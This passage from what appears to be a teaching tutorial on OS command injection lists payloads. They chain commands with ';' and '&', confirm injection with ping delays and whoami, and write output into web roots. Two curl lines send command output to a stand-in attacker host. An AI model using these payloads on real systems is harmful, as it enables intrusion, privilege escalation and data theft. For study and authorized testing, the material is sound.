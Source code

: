   ```bash
  ; curl http://<your-ip>/?data=`whoami`
  ```

### 💾 **Write output to a file**

```bash
; whoami > /var/www/html/output.txt
```

Then access:
`http://target/output.txt`

Windows:

```cmd
& whoami > c:\inetpub\wwwroot\output.txt
```

---

## 🔒 Privilege Checking

Once you’ve confirmed injection:

* Run `whoami`, `id`, or check group memberships.
* Try writing to protected folders to test privilege level.
* If limited, look for local privilege escalation or SUID binaries.

---

## 🧠 Summary Table

| Task                             | Payload/Command                         |
| -------------------------------- | --------------------------------------- |
| Time delay (Linux)               | `; ping -c 10 127.0.0.1 ;`              |
| Time delay (Windows)             | `& ping -n 10 127.0.0.1 &`              |
| Confirming injection             | `; whoami`                              |
| Get output back (if not visible) | `; whoami > /var/www/html/test.txt`     |
| Out-of-band exfil                | `; curl http://attacker.com/?x=\`id\`\` |

---

## ❓ Self-Check Questions

1. Why is `ping` useful for detecting command injection?
2. What’s the difference between `;`, `&&`, and `||`?
3. What’s the advantage of using backticks (`` `command` ``) in injection?
4. What are signs that your command was **executed** but output was not shown?
5. How can you get command output if it doesn’t appear in the browser?

---